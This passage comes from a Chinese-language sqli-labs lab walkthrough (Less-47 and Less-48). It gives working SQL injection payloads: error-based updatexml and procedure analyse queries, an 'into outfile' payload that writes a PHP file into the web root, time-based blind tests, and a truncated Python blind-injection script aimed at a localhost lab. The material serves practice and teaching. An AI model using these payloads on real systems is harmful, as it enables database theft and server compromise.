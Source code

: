 
![93](/medias/sqli-labs/93.png)


## Less-47

利用order by 数字注入

原来order by也可以`order by '0' or 1=1`这样

```sql
?sort=0' or updatexml(0x7e,version(),0x7e)%23
```

![94](/medias/sqli-labs/94.png)


order by + 数字 + procedure analyse(payload,数字)

```sql
?sort=0 procedure analyse(updatexml(0x7e,version(),0x7e),14514)%23
```

![95](/medias/sqli-labs/95.png)


order by + 数字 + into outfile '文件路径'

```sql
?sort=0' into outfile '/var/www/html/Less-47/1.php'  lines terminated by 0x3c3f3d706870696e666f28293b3f3e%23
```

![96](/medias/sqli-labs/96.png)


## Less-48

这道题测试后台语法没有报错信息，直接试时间盲注

```sql
?sort=if(1=1,sleep(5),sleep(5))%23
```

![97](/medias/sqli-labs/97.png)

脚本梭哈

```python
import requests
import string
import time
# 下划线放最后，避免当作统配符吃掉特殊字符
flags = 'abcdefghijklmnopqrstuvwxyz0123456789,-\{\}_'
flag = ""

url = "http://127.0.0.1:8080/Less-48/"
i = 1
print("脚本正在运行.......")
while True:
    
    for s in flags:
        # 爆库
        sort = "if((substr((select group_concat(schema_name) from information_schema.schemata)," + str(i)+",1)='"+ s +"'),sleep(0.1),0)"
        # 爆表
        # sort = "if((substr((select group_concat(table_name) from information_schema.tables where table_schema=database())," + str(i)+",1)='"+ s +"'),sleep(0.1),0)%23"
        # 爆字段
```